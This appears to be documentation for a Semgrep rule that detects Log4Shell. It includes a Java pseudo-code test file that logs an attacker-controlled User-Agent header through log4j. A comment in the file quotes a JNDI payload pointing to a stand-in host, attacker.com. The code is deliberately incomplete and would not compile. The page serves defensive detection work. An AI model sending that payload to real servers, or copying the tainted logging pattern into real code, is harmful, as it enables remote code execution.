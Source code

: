 File:
```java
import org.apache.log4j.Logger;
import org.apache.log4j.LogManager;
import java.io.*;
import java.sql.SQLException;
import java.util.*;
 
 static Logger log;
  log = LogManager.getLogger(log4jExample.class.getName());
 
public class VulnerableLog4jExampleHandler implements HttpHandler {
 
 
 /**
  * A simple HTTP endpoint that reads the request's User Agent and logs it back.
  * This is pseudo-code to explain the vulnerability, and not a full example.
  * @param he HTTP Request Object
  */
 public void handle(HttpExchange he) throws IOException {
   string userAgent = he.getRequestHeader("user-agent");
   // ruleid: log4j2_tainted_argument
   log.info("Request User Agent:" + "" + userAgent);
   log.info("Request User Agent:" + "");
   // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
   // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
   // ruleid: log4j2_tainted_argument
   log.info("Request User Agent:" + userAgent);
 
   String response = "<h1>Hello There, " + userAgent + "!</h1>";
   he.sendResponseHeaders(200, response.length());
   OutputStream os = he.getResponseBody();
   os.write(response.getBytes());
   os.close();
 }
}
 
public class main{
   public static final Logger logger;
 
   logger = LogManager.getLogger(someClass.class);
   public static void someFunc(int arg1, String bad, String somestr){
     // ruleid: log4j2_tainted_argument
       logger.error(String.Format("foo biz {}",bad));
   }
}
```

Test an interactive example in the [Playground](https://semgrep.dev/s/chegg:log4j2_tainted_argument).

This rule searches for any function called by an object of type `Logger`, using the restriction within an import for `org.apache.log4j.<ANYTHING>` to make sure that logger is a vulnerable log4j logger.

